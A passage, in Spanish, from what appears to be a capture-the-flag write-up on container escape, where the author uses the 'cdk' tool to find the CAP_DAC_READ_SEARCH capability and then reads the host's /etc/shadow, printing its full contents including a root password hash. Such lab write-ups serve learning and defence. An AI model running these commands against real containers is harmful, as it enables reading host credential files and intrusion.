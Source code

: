 Con `cdk` realizamos un escaneo inicial, a ver si detecta algo.
`(remote) root@c150397ccd63:/tmp# ./cdk evaluate --full`

¡Y encontramos algo!
![Write-up Image](images/Screenshot_26.png)

Tenemos una capability, `CAP_DAC_READ_SEARCH` con la cual podríamos leer archivos de la máquina anfitriona.
`cdk` nos aconseja que podríamos leer los archivos del host utilizando `cdk run cap-dac-read-search`

```shell
./cdk run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18849:0:99999:7:::
sshd:*:18849:0:99999:7:::
systemd-coredump:!!:18849::::::
```